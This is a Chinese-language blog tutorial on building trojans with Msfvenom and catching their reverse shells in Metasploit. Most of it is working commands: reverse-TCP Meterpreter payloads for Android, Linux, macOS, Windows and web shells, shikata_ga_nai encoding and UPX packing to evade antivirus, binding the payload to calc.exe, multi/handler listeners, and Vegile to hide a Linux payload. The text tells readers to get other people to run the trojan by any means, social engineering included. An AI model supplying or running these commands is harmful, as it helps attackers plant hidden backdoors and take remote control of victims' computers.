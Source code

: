 **目录**

[Msfvenom](#t0 "Msfvenom")

[生成exe木马](#t1 "生成exe木马")

[生成Linux木马](#t2 "生成Linux木马")

[方法一：](#t3 "方法一：")

[方法二：](#t4 "方法二：")

* * *

在前一篇文章中我讲了什么是Meterpreter，并且讲解了Meterpreter的用法。传送门——>[Metasploit之Meterpreter](https://blog.csdn.net/qq_36119192/article/details/83215257#Meterpreter "Metasploit之Meterpreter")

今天我要讲的是我们用Msfvenom制作一个[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)，发送给其他主机，只要其他主机运行了该木马，就会自动连接到我们的主机，并且建立一条TCP连接。我们可以通过这条TCP连接控制目标主机。

**Msfvenom**
============

*   –p (- -payload-options)：添加载荷payload。载荷这个东西比较多，这个软件就是根据对应的载荷payload生成对应平台下的后门
*   \--lhost：VPS的地址
*   \--lport：VPS监听的端口
*   –a：选择架构平台  x86 、x64 、 x86\_64
*   \--platform：选择平台，windows、Linux
*   –e：使用编码进行免杀，如使用 x86/shikata\_ga\_nai 编码
*   –i：编码的次数
*   –b：避免使用的字符 例如：不使用 '\\x00\\'。
*   PrependMigrate=true PrependMigrateProc=svchost.exe：使这个木马默认会迁移到 svchost.exe 进程
*   –f ：输出文件格式，如 exe、c、elf、macho、raw、asp、aspx、
*   –l：查看所有payload encoder nops。
*   –o：文件输出
*   –s：生成payload的最大长度，就是文件大小。
*   –c：添加自己的shellcode
*   –x | -k：捆绑

![](https://img-blog.csdnimg.cn/20181206234950273.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
安卓app:      
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -o ~/Desktop/test2.apk        
Linux:      
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f  elf > shell.elf      
Mac:      
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f macho >  shell.macho      
PHP：      
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.27 LPORT=4444 -f raw -o test.php      
ASP:      1
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888  -f asp > shell.asp      1
ASPX：      1
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888  -f  aspx > shell.aspx      1
JSP:      1
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f  raw > shell.jsp      1
Bash：      1
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.10.27 LPORT=8888 -f   raw > shell.sh      1
Perl      1
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.10.27 LPORT=8888 -f raw > shell.pl      1
Python      2
msfvenom -p python/meterpreter/reverser_tcp LHOST=192.168.10.27 LPORT=8888 -f   raw > shell.py
```


**生成exe木马**
-----------

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.27 lport=8888 -f exe -o test.exe  #lhost是我们的主机ip，lport是我们主机的用于监听的端口       
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.27 lport=8888 -i 3 -e x86/shikata_ga_nai  -f exe -o test.exe  #编码3次
```


![](https://img-blog.csdnimg.cn/20181205105401849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后会在该目录下生成一个test.exe的木马。

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -i 20 lhost=192.168.10.11 lport=8888 -x calc.exe -f exe -o test.exe      #编码20次、捆绑正常的32位calc.exe，生成32位的test.exe文件
```


![](https://img-blog.csdnimg.cn/20190928103916453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**利用 upx 加壳**

```
upx -9 test.exe -k -o test2.exe
```


![](https://img-blog.csdnimg.cn/20190928105128450.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

接下来，我们运行 msfconsole 进入MSF控制台，然后输入以下命令

```
msf > use exploit/multi/handler  #使用exploit/multi/handler监听从肉鸡发来的数据      
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  #设置payload，不同的木马设置不同的payload      
msf exploit(handler) > set lhost 192.168.10.15  #我们的主机ip      
msf exploit(handler) > set lport 8888            #我们的主机端口      
msf exploit(handler) > exploit
```


![](https://img-blog.csdnimg.cn/20181205105951298.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后，将木马发送给其他人，无论使用什么手段(可以使用社会工程学)让其在其他主机上运行，我们这边就会接收到反弹过来的session。

因为我们刚刚把进程挂在后台，所以我们输入：**sessions  -l**  可以查看到我们得到的shell，使用 sessions -i  1 可以进入指定的shell，我们这里只有一个，所以id为1。如图，我们成功拿到了其他主机的shell

![](https://img-blog.csdnimg.cn/20181205105940219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

生成Linux木马
---------

### 方法一：

执行以下命令会生成一个elf文件

```
#生成32位的马      
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=VPS的地址  LPORT=8888 -f elf > test.elf      
#生成64位的马      
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=VPS的地址  LPORT=8888 -f elf > test.elf
```


![](https://img-blog.csdnimg.cn/2020043022481762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后MSF开启监听

```
use exploit/multi/handler      
set payload linux/x64/meterpreter/reverse_tcp      
set LHOST 0.0.0.0      
set LPORT 8888      
exploit -j
```


![](https://img-blog.csdnimg.cn/20200430230050572.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

将该elf文件上传到目标机器，添加可执行权限，然后执行即可

![](https://img-blog.csdnimg.cn/20200430230300463.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方法二：

首先，在我们的Kali上生成一个Linux类型的木马test

```
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=VPS的地址 LPORT=8888 -b "\x00" -f elf -o test
```


![](https://img-blog.csdnimg.cn/20200403224027841.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在目标机器上下载Vegile，命令如下，然后将 test 传到Vegile目录下

```
git clone https://github.com/Screetsec/Vegile.git      
cd Vegile      
chmod +x Vegile
```


 ![](https://img-blog.csdnimg.cn/20200403224429147.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在Kali上开启监听如下

```
use exploit/multi/hander      
set payload linux/x86/shell/reverse_tcp      
set lhost 192.168.10.13      
set lport 8888      
exploit -j
```


![](https://img-blog.csdnimg.cn/20200403224308970.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后在目标及执行如下

```
./Vegile --u test      
或      
./Vegile --i test
```


![](https://img-blog.csdnimg.cn/20200403224521666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后我们的VPS就可以收到目标机器弹回来的shell了。

![](https://img-blog.csdnimg.cn/2020040322472946.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

关于后渗透阶段如何使用Meterpreter，传送门——>[后渗透阶段Meterpreter的使用](https://blog.csdn.net/qq_36119192/article/details/83215257#%E5%90%8E%E6%B8%97%E9%80%8F%E6%88%AA%E6%96%AD%C2%A0 "后渗透阶段Meterpreter的使用")

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)